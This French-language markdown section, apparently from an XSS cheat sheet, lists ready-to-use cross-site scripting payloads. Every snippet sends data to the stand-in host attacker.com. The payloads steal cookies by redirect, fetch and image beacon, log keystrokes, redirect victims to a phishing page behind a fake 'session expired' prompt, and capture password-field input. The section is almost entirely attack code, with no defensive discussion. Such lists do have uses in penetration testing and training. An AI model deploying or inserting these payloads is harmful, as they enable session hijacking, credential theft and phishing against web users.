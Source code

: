 ## ⚔️ Payloads d'Exploitation

### Vol de cookies
```javascript
// Basique
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>

// Avec fetch (moderne)
<script>
fetch('http://attacker.com/steal', {
  method: 'POST',
  body: 'cookie=' + document.cookie
});
</script>

// Discret avec image
<script>
new Image().src = 'http://attacker.com/steal?cookie=' + document.cookie;
</script>
```

### Keylogger
```javascript
<script>
document.onkeypress = function(e) {
  fetch('http://attacker.com/keys', {
    method: 'POST',
    body: 'key=' + String.fromCharCode(e.which)
  });
}
</script>
```

### Redirection et phishing
```javascript
// Redirection simple
<script>window.location='http://attacker.com/phishing'</script>

// Phishing de login
<script>
if(confirm('Session expirée. Reconnectez-vous:')) {
  window.location='http://attacker.com/fake-login?redirect=' + location.href;
}
</script>
```

### Capture de frappes spécifiques
```javascript
<script>
// Capturer les mots de passe
document.addEventListener('input', function(e) {
  if(e.target.type === 'password') {
    fetch('http://attacker.com/capture', {
      method: 'POST',
      body: 'password=' + e.target.value
    });
  }
});
</script>
```
